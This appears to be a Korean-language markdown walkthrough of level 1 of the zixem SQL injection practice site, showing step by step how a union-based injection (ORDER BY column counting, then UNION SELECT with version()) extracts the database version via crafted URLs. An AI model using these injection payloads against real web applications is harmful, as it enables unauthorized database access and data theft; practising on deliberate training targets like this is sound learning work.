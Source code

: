 # <p align="center">level 1</p>
> -문제 풀이
>> - 문제 조건
>> 1. zixem은 내가 원하는 데이터를 띄우는게 목적이다.
>> ##### ※우리가 원하는 데이터는 SQL의 버전으로 하겠다. 
>
>> - 문제 풀이
>> 1. 일단 sqli가 되는 환경인지 알아보기 위해 에러 유발인자를 넣어본다.
>> 2. sqli가 되는 환경인걸 확인했으면 order by를 사용해 컬럼의 갯수 확인<br/>
>>https://www.zixem.altervista.org/SQLi/level1.php?id=1 order by 1-- (O)<br/>
>>https://www.zixem.altervista.org/SQLi/levle1.php?id=1 order by 5-- (X)<br/>
>>https://www.zixem.altervista.org/SQLi/levle1.php?id=1 order by 3-- (O)<br/>
>> 3. 컬럼 갯수가 확인이 됐으면 컬럼마다 값을 하나씩 넣어본다.
>>https://www.zixem.altervista.org/SQLi/levle1.php?id=1 union select 1,2,3--
>> 4. 안될거다. 왜냐하면 임의로 값을 넣는 작업은 엄연히 문제가 생기기 때문에<br/>
>>사이트에서 원래 나올 정상값을 위에 덮어서 보여준다 따라서 에러를 일으켜 벗겨낸다.
>>https://www.zixem.altervista.org/SQLi/levle1.php?id=1234 union select 1,2,3--
>> 5. 화면에 나오는 넣은 값의 위치를 확인하고 우리가 원하는 값르 입력한다.
>>https://www.zixem.altervista.org/SQLi/levle1.php?id=1234 union select version(),2,3--